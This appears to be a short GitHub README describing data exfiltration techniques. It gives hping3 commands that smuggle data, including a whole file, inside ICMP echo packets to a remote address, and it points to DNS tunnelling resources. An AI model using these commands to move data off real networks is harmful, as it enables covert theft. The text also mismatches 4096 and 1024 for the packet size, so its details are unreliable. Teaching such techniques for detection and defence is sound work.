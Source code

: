 # Techniques to exfiltrate data

## ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```
$ ping 127.0.0.1 -s 1024
```

The payload of 4096 is junk **until** you add your own payload:

```
$ sudo hping3 127.0.0.1 -1 --sign="Hello world!"
```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## DNS protocol

An image worth a thousand words...

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)

#### Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664